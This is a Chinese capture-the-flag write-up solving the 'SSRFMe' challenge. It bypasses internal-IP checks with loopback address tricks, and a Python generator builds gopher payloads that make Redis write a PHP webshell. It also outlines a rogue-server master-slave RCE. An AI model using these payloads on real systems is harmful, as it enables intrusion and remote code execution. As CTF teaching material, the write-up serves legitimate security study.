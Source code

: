 # \[网鼎杯 2020 玄武组]SSRFMe

## \[网鼎杯 2020 玄武组]SSRFMe

## 考点



## wp

打开靶机给了源码

第一个函数`check_inner_ip`，传入的URL必须以`http https gopher dict`开头，然后用parse\_url解析获取hostname

`gethostbyname()`函数用于获取hostname对应的IPv4地址，失败则返回hostname

`ip2long()`函数用于把IPv4地址转换为长整数

传入的URL对应的IP格式必须是`127.*   10.*  172.16.*  192.168.*`

否则返回False

```php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
    $hostname=$url_parse['host'];
    $ip=gethostbyname($hostname);
    $int_ip=ip2long($ip);
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;
}
```

第二个函数`safe_request_url`，传入的url如果符合`check_inner_ip`函数的要求，就直接输出url

如果传入的不是私有地址，就使用PHP curl获取页面。如果私有地址中间有302跳转，就把跳转的目标url再用`safe_request_url`函数访问，这样就避免了用302跳转绕过本地限制

```php
function safe_request_url($url)
{

    if (check_inner_ip($url))
    {
        echo $url.' is inner ip';
    }
    else
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        $output = curl_exec($ch);
        $result_info = curl_getinfo($ch);
        if ($result_info['redirect_url'])
        {
            safe_request_url($result_info['redirect_url']);
        }
        curl_close($ch);
        var_dump($output);
    }

}
```

最后一段，提示先访问本地的`hint.php`

```php
if(isset($_GET['url'])){
    $url = $_GET['url'];
    if(!empty($url)){
        safe_request_url($url);
    }
} 
// Please visit hint.php locally. 
```

这些操作相当于限制本地访问，同时要求访问本地`hint.php`

常用策略就是八进制 十六进制 全0 等方法

```
http://0.0.0.0/hint.php    只能Linux下用
http://[0:0:0:0:0:ffff:127.0.0.1]/hint.php
```

得到新代码，向POST传入的file参数写入`"<?php echo 'redispass is root';exit();".$_POST['file']`

```php
<?php
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){
  highlight_file(__FILE__);
}
if(isset($_POST['file'])){
  file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);
}
```

这里给了提示redis密码为`root`

用下面脚本生成payload

<pre class="language-python"><code class="lang-python"><strong>from urllib.parse import quote
</strong>
protocol="gopher://"
ip="0.0.0.0"
port="6379"
shell="&#x3C;?php system('cat /flag');?>"
filename="b.php"
path="/var/www/html"
passwd="root"
cmd=["auth root",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
payload=''
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd
def generate_payload():
    global payload
    for x in cmd:
        payload += quote(redis_format(x))
    return payload

print(generate_payload())
</code></pre>

payload

{% code overflow="wrap" %}
```
gopher://0.0.0.0:6379/_%2A2%0D%0A%244%0D%0AAUTH%0D%0A%244%0D%0Aroot%0D%0A%2A2%0D%0A%244%0D%0Aauth%0D%0A%244%0D%0Aroot%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2436%0D%0A%3C%3Fphp%20var_dump%28readfile%28%27/flag%27%29%29%3B%3F%3E%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%245%0D%0Ab.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
```
{% endcode %}

再URL编码一下

{% code overflow="wrap" %}
```
gopher://0.0.0.0:6379/_%252a2%250d%250a%25244%250d%250aauth%250d%250a%25244%250d%250aroot%250d%250a%252a2%250d%250a%25244%250d%250aauth%250d%250a%25244%250d%250aroot%250d%250a%252a3%250d%250a%25243%250d%250aset%250d%250a%25241%250d%250a1%250d%250a%252436%250d%250a%253c%253fphp%2520var_dump%2528readfile%2528%2527%2fflag%2527%2529%2529%253b%253f%253e%250d%250a%252a4%250d%250a%25246%250d%250aconfig%250d%250a%25243%250d%250aset%250d%250a%25243%250d%250adir%250d%250a%252413%250d%250a%2fvar%2fwww%2fhtml%250d%250a%252a4%250d%250a%25246%250d%250aconfig%250d%250a%25243%250d%250aset%250d%250a%252410%250d%250adbfilename%250d%250a%25245%250d%250ab.php%250d%250a%252a1%250d%250a%25244%250d%250asave%250d%250a
```
{% endcode %}

在靶机直接打?url=payload，然后访问b.php即可

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

预期解法是redis主从复制rce BUU环境有问题复现不了

下载[redis-ssrf](https://github.com/xmsec/redis-ssrf)，修改[ssrf-redis.py](https://github.com/xmsec/redis-ssrf/blob/master/ssrf-redis.py)

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

下载[redis-rogue-server](https://github.com/Dliv3/redis-rogue-server) &#x20;

把exp.so ssrf-redis.py rogue-server.py上传到VPS

运行ssrf-redis.py得到payload

再运行rogue-server.py

把payload再URL编码一下，在靶机用编码后的payload打过去





## 小结

1. [\[网鼎杯 2020 玄武组\]SSRFMe](https://liotree.github.io/2020/07/10/%E7%BD%91%E9%BC%8E%E6%9D%AF-2020-%E7%8E%84%E6%AD%A6%E7%BB%84-SSRFMe/)1
2. [\[网鼎杯 2020 玄武组\]SSRFMe](https://www.cnblogs.com/karsa/p/14123995.htm)2

